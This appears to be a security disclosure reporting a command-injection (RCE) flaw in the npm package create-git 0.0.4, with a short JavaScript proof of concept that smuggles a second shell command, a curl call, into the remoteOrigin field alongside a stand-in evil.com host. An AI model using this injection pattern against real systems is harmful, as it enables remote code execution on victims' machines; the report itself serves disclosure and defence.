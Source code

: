 ## Details:
I would like to report a `RCE` issue in the `create-git` module.
It allows to `execute remote commands on the victim's PC`

## Module
* **module name:** `create-git`
* **version:** `0.0.4`
* **npm page:** `https://www.npmjs.com/package/create-git`

## Module Description
> A generator to initialize a project with git.

## Vulnerability Description
The issue arises because some `user supplied` inputs are formatted inside commands executed lately without any check. Issue arises on this line: https://github.com/wesleytodd/create-git/blob/master/index.js#L85

## POC

```js
// poc.js
const createGit = require('create-git')
 
createGit({
    ignoreExisting: true,
    initialCommitMessage: 'test',
    remoteOrigin: 'http://evil.com || curl "http://localhost/RCE"',
    ignoreTemplates: ['Node.gitignore']
  })
```

## Impact
`RCE` via `insecure command formatting` on `create-git`
